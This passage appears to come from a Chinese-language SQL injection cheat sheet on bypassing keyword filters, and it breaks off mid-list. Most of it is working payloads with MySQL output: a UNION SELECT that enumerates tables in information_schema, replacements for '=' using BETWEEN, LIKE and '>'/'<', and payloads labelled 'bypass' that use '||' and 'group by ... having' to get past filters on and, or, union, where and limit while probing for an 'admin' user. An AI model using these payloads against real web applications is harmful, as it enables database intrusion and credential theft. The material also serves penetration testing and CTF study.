 ```
1 union select 1, table_name from information_schema.tables where table_name = 'users'

>select 1, table_name from information_schema.tables where table_name between 'u' and 'v';
+---+-----------------+
| 1 | table_name      |
+---+-----------------+
| 1 | USER_PRIVILEGES |
| 1 | USER_STATISTICS |
| 1 | user            |
| 1 | users           |
+---+-----------------+

>select 1, table_name from information_schema.tables where table_name like 'u%';
+---+-----------------+
| 1 | table_name      |
+---+-----------------+
| 1 | USER_PRIVILEGES |
| 1 | USER_STATISTICS |
| 1 | user            |
| 1 | users           |
+---+-----------------+
```

* >, < 绕过

```
>select 1, table_name from information_schema.tables where table_name > 'u' and table_name < 'v';
+---+-----------------+
| 1 | table_name      |
+---+-----------------+
| 1 | USER_PRIVILEGES |
| 1 | USER_STATISTICS |
| 1 | user            |
| 1 | users           |
+---+-----------------+
```

### 组合过滤

* 同时过滤and，or，union，where

```
过滤：1 || (select user from users where user_id = 1) = 'admin'
绕过：1 || (select user from users limit 1) = 'admin'
```

* 同时过滤and，or，union，where，limit

```
过滤：1 || (select user from users limit 1) = 'admin'
绕过：1 || (select user from users group by user_id having user_id = 1) = 'admin'
```

* 同时过滤and，or，union，where，limit，group by

